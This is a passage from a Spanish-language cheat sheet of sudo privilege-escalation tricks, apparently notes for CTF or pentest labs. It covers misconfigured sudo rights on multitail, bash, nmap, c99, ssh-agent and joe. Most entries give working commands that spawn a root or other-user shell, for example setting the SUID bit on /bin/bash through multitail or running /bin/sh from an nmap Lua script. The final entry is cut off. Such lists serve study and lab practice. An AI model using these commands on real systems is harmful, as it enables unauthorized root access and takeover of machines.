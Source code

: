 User lucifer may run the following commands on lower4:
    (root) NOPASSWD: /usr/bin/multitail

versión

multitail 6.5.0

sudo -u root /usr/bin/multitail -l "chmod 4755 /bin/bash"

presionamos ctrl + c para salir luego ejecutamos:

/bin/bash -pi

listo soy root

-------------------------------------------------------------------------------

56.-	/usr/bin/bash

(s3cur4) NOPASSWD: /usr/bin/bash

sudo -u s3cur4 /usr/bin/bash

-------------------------------------------------------------------------------

57.-	/usr/bin/nmap

opción 1, ejecutamos los siguientes comandos:	

TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF

opción 2, ejecutamos los siguientes comandos:

sudo nmap --interactive
nmap> !sh

-------------------------------------------------------------------------------

58.-	/usr/bin/c99

(dustin) NOPASSWD: /usr/bin/c99

sudo -u dustin /usr/bin/c99 -wrapper /bin/sh,-s .

-------------------------------------------------------------------------------

59.-	/usr/bin/ssh-agent

(root) NOPASSWD: /usr/bin/ssh-agent

sudo /usr/bin/ssh-agent /bin/bash

-------------------------------------------------------------------------------

60.-	/usr/bin/joe

(root) NOPASSWD: /usr/bin/joe

ejecutamos

sudo /usr/bin/joe

